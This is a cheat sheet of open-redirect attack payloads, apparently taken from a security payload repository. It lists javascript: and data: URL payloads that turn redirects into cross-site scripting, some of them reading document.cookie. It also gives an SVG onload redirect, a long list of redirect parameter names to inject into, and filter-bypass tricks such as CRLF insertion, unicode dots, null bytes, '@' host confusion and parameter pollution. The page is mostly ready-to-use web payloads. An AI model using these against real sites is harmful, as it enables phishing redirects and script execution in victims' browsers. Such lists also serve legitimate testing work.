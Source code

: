 # Open Redirect to XSS


```js
#Basic payload, javascript code is executed after "javascript:"
javascript:alert(1)

#Bypass "javascript" word filter with CRLF
java%0d%0ascript%0d%0a:alert(0)

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed
#This bypasses FILTER_VALIDATE_URL os PHP
javascript://%250Aalert(1)

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```

# Open Redirect uploading svg files

```html
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```

# Common injection parameters

```html
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://github.io
data=https://github.io
qurl=https://github.io
login=https://github.io
logout=https://github.io
ext=https://github.io
clickurl=https://github.io
goto=https://github.io
rit_url=https://cgithub.io
forward_url=https://github.io
@https://github.io
forward=https://github.io
pic=https://github.io
callback_url=https://github.io
jump=https://github.io
jump_url=https://github.io
click?u=https://github.io
originUrl=https://github.io
origin=https://github.io
Url=https://github.io
desturl=https://github.io
u=https://github.io
page=https://github.io
u1=https://github.io
action=https://github.io
action_url=https://github.io
Redirect=https://github.io
sp_url=https://github.io
service=https://github.io
recurl=https://github.io
j?url=https://github.io
url=//https://github.io
uri=https://github.io
u=https://github.io
allinurl:https://github.io
q=https://github.io
link=https://github.io
src=https://ithub.io
tc?src=https://github.io
linkAddress=https://github.io
location=https://github.io
burl=https:/.github.io
request=https://github.io
backurl=https://github.io
RedirectUrl=https://github.io
Redirect=https://github.io
ReturnUrl=https://github.io
```
# Filter Bypass

Using a whitelisted domain or keyword
```
www.whitelisted.com.evil.com redirect to evil.com
```
Using CRLF to bypass "javascript" blacklisted keyword
```
java%0d%0ascript%0d%0a:alert(0)
```
Using "//" & "////" to bypass "http" blacklisted keyword
```
//google.com
////google.com
```
Using "https:" to bypass "//" blacklisted keyword

```
https:google.com
```
Using "//" to bypass "//" blacklisted keyword (Browsers see // as //)

```
\/\/google.com/
/\/google.com/
```

Using "%E3%80%82" to bypass "." blacklisted character
```
/?redir=google。com
//google%E3%80%82com
```
Using null byte "%00" to bypass blacklist filter
```
//google%00.com
```
Using parameter pollution

```
?next=whitelisted.com&next=google.com
```
Using "@" character, browser will redirect to anything after the "@"
```
http://www.theirsite.com@yoursite.com/
```

Creating folder as their domain

```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```
Using "?" characted, browser will translate it to "/?"
```
http://www.yoursite.com?http://www.theirsite.com/
http://www.yoursite.com?folder/www.folder.com
```
Host/Split Unicode Normalization
```
https://evil.c℀.example.com . ---> https://evil.ca/c.example.com
http://a.com／X.b.com
```
XSS from Open URL - If it's in a JS variable
```
";alert(0);//
```
XSS from data:// wrapper
```
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```
XSS from javascript:// wrapper
```
http://www.example.com/redirect.php?url=javascript:prompt(1)
```








